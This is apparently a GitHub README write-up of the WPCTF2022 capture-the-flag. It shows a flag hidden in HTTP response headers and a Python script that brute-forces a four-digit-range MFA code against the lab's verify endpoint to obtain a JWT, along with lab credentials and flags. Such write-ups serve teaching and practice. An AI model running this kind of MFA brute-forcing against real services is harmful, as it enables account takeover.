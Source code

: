 # WPCTF2022

Confused about the exploit code? Checkout the exploit [here](./expl.py)!

(Or if you want to try the CTF, see the files [here](https://github.com/WuerthPhoenix/wpctf2022)!)
## Reconnaissance: WP{h1d3_http_h34d3rz}

For the first flag simply connect to your instance and look at the headers the server responds with, you should see a custom header called `Wp-Ctf` with the flag.

## 2FA: WP{d0cum4nt5_l34k_s3nsitiv3_inf0}

After logging with the given credentials `user047:asd` you are asked for a multifactor authentication code, and a request is made every second to an API endpoint that checks if the multifactor authentication step was successful.

```jsx
POST /api/mfa_verify.php HTTP/1.1
Host: start.wpctf.lan:8806
Content-Type: application/json;charset=utf-8

{"username":"user047","mfa_check":1912}
```

Since we don’t know what is the correct code, we tried all of them up to a thousand with this script:

```python
import requests
import json
for i in range(0,1000):
    d = {"username":"user047","mfa_check":i}
    r = requests.post("http://start.wpctf.lan:8806/api/mfa_verify.php",data=d)
    j = json.loads(r.text)
    if j['success'] == 'true':
        print(j['jwt'])
```

Turns out that a `mfa_check` equal to 123 is all we need to get the correct jwt token!
When logged in we saw some files, one of them had the flag in its name.

Here its content:

![Untitled](images/Untitled.png)
